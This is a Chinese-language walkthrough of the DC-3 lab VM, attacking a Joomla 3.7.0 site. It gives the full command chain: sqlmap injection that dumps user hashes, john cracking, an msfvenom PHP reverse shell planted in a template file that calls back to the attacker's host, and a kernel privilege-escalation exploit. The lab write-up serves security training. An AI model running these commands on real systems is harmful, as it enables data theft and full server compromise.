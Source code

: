 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-3（192.168.1.）


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.11
```

![image-20220110203517991.png](_img\06-靶场实践/1652256194361-2524b082-b229-477f-b617-b79465006747.png)

可以看到目标机开放了80端口HTTP服务


## 目录扫描

可以看到网站后台路径

![image-20220110204506347.png](_img\06-靶场实践/1652256198478-a01eb2d4-dbd3-45af-ba37-9c16481360b7.png)

在浏览器访问网站后台，通过标题可以发现使用的是joomla搭建的站点

![image-20220110204514438.png](_img\06-靶场实践/1652256202188-c8f13d83-e81c-4597-ae1c-53c8374f3b2d.png)


## 漏洞扫描

已经知道是使用的joomla搭建的站点那么使用joomscan扫描站点

[不知道什么是joomscan?点这里](https://www.freebuf.com/sectool/181440.html)

```
joomscan --url http://192.168.1.11
```

![image-20220110204557133.png](_img\06-靶场实践/1652256207763-5a96fe0a-fbc1-45a4-88dc-80925012127d.png)

从结果可以看到 joomla的版本是 3.7.0

查看joomla 3.7.0的漏洞有哪些

```
searchsploit joomla 3.7.0
```

![image-20220110204618326.png](_img\06-靶场实践/1652256212029-e0578894-125c-4994-895a-8c6e4565b027.png)

可以发现joomla 3.7.0 存在SQL注入漏洞

查看42033.txt的内容

![image-20220110204807674.png](_img\06-靶场实践/1652256215174-262be897-e1a4-4d75-a437-693ffc318999.png)

文档中指出可以使用sqlmap进行注入 并将参数列了出来


## 漏洞利用

使用sqlmap扫描，暴库

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![image-20220110205106024.png](_img\06-靶场实践/1652256221047-9a27c003-22a5-4e97-9492-e2f20d8c9f9b.png)

爆表

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

![image-20220110205257745.png](_img\06-靶场实践/1652256225003-39ef2db6-b0cd-4eaf-a561-b915f46b3045.png)

爆字段

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" --columns -p list[fullordering]
```

![image-20220110205625696.png](_img\06-靶场实践/1652256228844-accac433-9b27-4402-b76d-a2edf7d670b9.png)

拖库

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" -C "name,password" --dump -p list[fullordering]
```

![image-20220110205722192.png](_img\06-靶场实践/1652256232749-97da86f2-c589-44cb-8b56-0679427cae83.png)

得到了admin和密码的哈希值

将密码存入文件password中使用john破解

```
john password
```

![image-20220110205855317.png](_img\06-靶场实践/1652256235949-5385e53e-a1f4-4278-a5b7-f5e96ec0322b.png)

得到了密码snoopy

登陆后台

![image-20220110205928274.png](_img\06-靶场实践/1652256239394-868519b5-9676-490c-ba25-ee24799dd107.png)

在template栏中发现可以写文件，我们可以写一个木马上去

![image-20220110210247843.png](_img\06-靶场实践/1652256243049-30ea4c2a-4e93-4cd8-856f-ebf61b7fa98d.png)


## 反弹shell

使用msfvenom生成一个php木马文件

```
msfvenom -p php/meterpreter/reverse_tcp  lhost=192.168.1.28 port=4444 -f raw
```

![image-20220110211818024.png](_img\06-靶场实践/1652256247617-e4d301bb-cd3a-40c0-a4e3-056439f82c67.png)

将error.php文件内容替换为生成的木马内容保存

![image-20220110212201986.png](_img\06-靶场实践/1652256253133-deb863e1-4346-4f62-9d00-790587b2d0f4.png)

创建监听

```
┌──(root💀kali)-[~]
└─# msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.28
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

在浏览器中访问木马文件就得知道木马文件所在的位置

![image-20220110212256338.png](_img\06-靶场实践/1652256256478-508db622-e3cd-4ba3-90ca-1e596c893675.png)

```
http://192.168.1.11/templates/beez3/error.php
```

成功反弹shell

![image-20220110212314866.png](_img\06-靶场实践/1652256260909-c8134e9a-0cd8-46b6-b8ca-68d51ef866fa.png)


## 提权

进入shell，并使界面看起来正常

```
shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20220110212754433.png](_img\06-靶场实践/1652256265639-360a7de5-7ddf-42f4-9e31-756a84577f5e.png)

查看系统版本

```
cat /proc/version
cat /etc/issue
```

![image-20220110212917909.png](_img\06-靶场实践/1652256268955-c5c8557f-12a0-40ca-b4c9-a0255e0bafb1.png)

查找Ubuntu16.04的提权漏洞

```
searchsploit Ubuntu 16.04
```

![image-20220110213039355.png](_img\06-靶场实践/1652256272323-7313e9ba-e1be-4480-9240-bb4e085a4746.png)

查看39772.txt的内容

```
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

在文末可以看到利用方法和下载地址

![image-20220110213400265.png](_img\06-靶场实践/1652256276825-892161df-ddbd-49a5-9c92-8520e17135a9.png)

将文件下载到攻击机中并上传到靶机的/tmp目录

```
upload /root/39772.zip /tmp
```

![image-20220110213852195.png](_img\06-靶场实践/1652256281364-6e58070c-b239-4fc3-a365-942085999709.png)

进入shell解压

![image-20220110214210063.png](_img\06-靶场实践/1652256288370-c9dd8843-b368-4955-8917-667e3dc8984b.png)

编译

```
./compile.sh
```

![image-20220110214359617.png](_img\06-靶场实践/1652256292932-3a493d4f-be09-4c8e-8ea9-40ad401420c8.png)

提权

```
./doubleput
```

![image-20220110214703808.png](_img\06-靶场实践/1652256299833-34e131d2-c760-4774-9cbd-ef8f85b664eb.png)


## final-flag

在rootg根目录下找到flag

![image-20220110214935672.png](_img\06-靶场实践/1652256305412-6b1fa477-4ba3-4204-98c2-b4c8fda8b770.png)
